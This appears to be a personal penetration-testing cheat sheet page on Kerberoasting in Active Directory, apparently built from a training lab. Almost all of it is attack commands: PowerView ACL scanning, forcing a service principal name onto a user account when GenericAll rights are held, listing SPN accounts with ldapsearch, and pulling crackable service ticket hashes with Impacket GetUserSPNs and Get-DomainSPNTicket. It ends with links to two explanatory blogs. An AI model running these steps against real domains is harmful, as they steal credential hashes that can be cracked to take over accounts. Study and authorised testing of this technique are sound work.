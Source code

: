 ```yaml
---
layout: page
title: "# Kerberoasting"
permalink: /ad_cheatsheets/kerberoasting
---
```


# Kerberoasting

```powershell
. .\PowerView_dev.ps1

Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

## Check If current user has SPN

```powershell
#Powerview
Get-DomainUser -Identity support648user
```

when no

### Force SPN

- only posssible when you have GenericAll

```powershell
Set-DomainObject -Identity support648user -Set @{serviceprincipalname='dcorp/You Have Been Hacked'}

Add-Type -AssemblyName System.IdentityModel
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/406cb2d1-7db1-4145-86f8-25e869a8c847/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/406cb2d1-7db1-4145-86f8-25e869a8c847/Untitled.png)

## Check is there are SPN's (kerberoastable users) in the domain

```powershell
#LDAPSearch - Victim Linux machine
ldapsearch -Y GSSAPI -H ldap://dmzdc01.complyedge.com -D "pete@complyedge.com" -W -b "dc=complyedge,dc=com" "servicePrincipalName=*" servicePrincipalName

#Impacket - attack machine
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 172.16.75.168 complyedge.com/pete -outputfile hashes.kerberoast -k -no-pass
```

## Requesting Hash

```powershell
Get-DomainUser -Identity support648user | Get-DomainSPNTicket | select -ExpandProperty Hash
```

[Kerberos AD Attacks - Kerberoasting](https://blog.xpnsec.com/kerberos-attacks-part-1/)

[[Blog] Kerberoasting - Exploiting Kerberos to Compromise Microsoft Active Directory | Secura - Insight Into Your Digital Security](https://www.secura.com/blog/kerberoasting-exploiting-kerberos-to-compromise-microsoft-active-directory)
